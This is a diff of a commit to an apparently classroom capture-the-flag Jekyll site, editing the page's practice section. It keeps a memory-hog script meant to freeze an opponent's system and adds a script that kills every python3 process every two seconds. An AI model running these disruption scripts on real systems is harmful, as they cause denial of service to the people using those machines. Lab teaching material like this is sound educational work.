

Before and after one commit to jboyce1/ppsCTF, a Jekyll site: the page built from classes/MALchemist/MALchemist.md, in a window 1280 px wide and 1400 px high, scrolled down 9089 px, cut to the strip 148-1400 px from the top of the window. Shown: the whole strip at 87% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update MALchemist.md

```diff
--- a/classes/MALchemist/MALchemist.md
+++ b/classes/MALchemist/MALchemist.md
@@ -219,9 +219,9 @@ Actually go back to the Kali machine to see if you received a notification
 ---
 # Part 5: practice and explore
 
-Use the following scripts to
-Memory Hog (Consumes RAM Until the Bully’s System Freezes)
+## Use the following scripts to experiment on the range
 
+### Memory Hog (Consumes RAM Until the opponent system freezes)
 <div class="scroll-box">
 #!/usr/bin/env python3
 import multiprocessing
@@ -239,3 +239,31 @@ if __name__ == "__main__":
         p = multiprocessing.Process(target=memory_hog)
         p.start()
 </div>
+
+
+### Process Killer (kills processes running in python3)
+<div class="scroll-box">
+#!/usr/bin/env python3
+import subprocess
+import time
+
+BULLY_PROCESS = "python3"  # Target process running the bully script
+
+def find_and_kill_process():
+    """Finds and kills the bully script running as a Python process."""
+    try:
+        output = subprocess.run(["pgrep", "-f", BULLY_PROCESS], capture_output=True, text=True)
+        pids = output.stdout.strip().split("\n")
+        for pid in pids:
+            if pid.isdigit():
+                print(f"[+] Killing bully process: PID {pid}")
+                subprocess.run(["kill", "-9", pid])
+        print("[+] Bully script terminated.")
+    except Exception as e:
+        print(f"[-] Error terminating bully script: {e}")
+
+if __name__ == "__main__":
+    while True:
+        find_and_kill_process()
+        time.sleep(2)  # Check every 2 seconds
+</div>
```
